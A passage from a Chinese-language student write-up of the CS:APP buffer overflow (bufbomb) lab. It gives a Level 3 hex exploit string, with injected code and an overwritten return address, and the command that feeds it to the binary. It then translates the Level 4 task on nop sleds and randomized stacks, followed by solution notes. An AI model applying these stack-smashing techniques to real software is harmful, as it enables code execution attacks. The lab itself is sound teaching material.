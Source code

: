 ```cpp
//结果找了很久的bug

//以-u h运行
x %ebp
0x55683610 <_reserved+1037840>:	0x55685ff0
//%ebp的值是0x55683610 
//level3.txt
8b 04 25 08 d1 04 08
68 be 8d 04 08
c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 10 36 68 55
b8 35 68 55
//13+31+4 = 48 
cat level3.txt|./hex2raw|./bufbomb -u h
```
## <div id="level4">10.Level 4:Nitroglycerin(10 pts)</div>
从一次运行到另一次运行，尤其是由不同的用户运行，给定过程使用的确切堆栈位置会有所不同。这种变化的一个原因是，当程序开始执行时，所有环境变量的值都放在堆栈的底部附近。环境变量存储为字符串，根据其值需要不同的存储量。因此，为给定用户分配的堆栈空间取决于他或她的环境变量的设置。在GDB下运行程序时，堆栈位置也会有所不同，因为GDB使用堆栈空间来处理自己的一些状态

在调用getbuf的代码中，我们引入了稳定堆栈的功能，这样getbuf堆栈框架的位置在运行之间就会保持一致。这使得您可以在知道buf的确切起始地址的情况下编写漏洞利用字符串。如果你试图在普通程序上使用这种漏洞，你会发现它有时有效，但有时会导致分段错误。因此有了“炸药”的名字——阿尔弗雷德·诺贝尔开发的一种炸药，它含有稳定元素，使其不太容易发生意外爆炸。

对于这个水平，我们走了相反的方向，使堆栈位置比正常情况下更加不稳定。因此有了“硝酸甘油”的名字——一种出了名的不稳定炸药。当您使用命令行标志“-n”运行BUFBOMB时，它将在“Nitro”模式下运行。该程序不是调用函数getbuf，而是调用一个略有不同的函数getbufn：

这个函数类似于getbuf，只是它有一个512个字符的缓冲区。您将需要这个额外的空间来创建可靠的漏洞。调用getbufn的代码首先在堆栈上分配随机量的存储，因此，如果您在连续两次执行getbufn期间对%ebp的值进行采样，您会发现它们的差异高达±240。
此外，当在Nitro模式下运行时，BUFBOMB要求您提供字符串5次，它将执行getbufn 5次，每次都有不同的堆栈偏移量。您的漏洞利用字符串必须使其每次都返回您的cookie。

您的任务与Dynamite级别的任务相同。再一次，这个级别的工作是提供一个漏洞利用字符串，该字符串将导致getbufn返回cookie进行测试，而不是值1。你可以在测试代码中看到，这将导致程序进入“KABOOM！”。你的漏洞利用代码应该将你的cookie设置为返回值，恢复任何损坏的状态，在堆栈上推送正确的返回位置，并执行ret指令以真正返回testn。
### 10.1.一些建议
您可以使用程序HEX2RAW发送漏洞利用字符串的多个副本。如果您在文件explore.txt中有一个副本，则可以使用以下命令：
```shell
unix> cat exploit.txt | ./hex2raw -n | ./bufbomb -n -u bovik
```
在五次getbufn的执行中，你必须使用相同的字符串。否则会导致测试程序失败。

此任务的诀窍是使用nop指令。它是用单个字节（代码0x90）编码的。阅读CS:APP2e教科书第262页上的“nop sleds”可能会很有用
```cpp
//解题过程
//level4和level3要做的事情相同，区别是其调用testn和getbufn函数
//buf的首地址是随机的，因此%esp的值也是随机的

//注意，注入的代码是在getbufn中的leave和ret指令之后执行的
//要恢复的是testn函数中push到栈上的%ebp的值

//一个误区
//返回testn函数后 是要使%ebp寄存器的值为正确的值
//恢复栈上的值是leave函数取到正确的值赋给%ebp
//之前以为一定要恢复栈上存储的%ebp旧值

//“随机”并不是真正的随机，只是五次不一样而已
//下图中的结果是可以本地复现的
```
<img width="597" alt="image" src="https://github.com/RaDsZ2z/CSAPP/assets/129292565/791c4063-aa80-4806-81ae-89bdc64118fc">
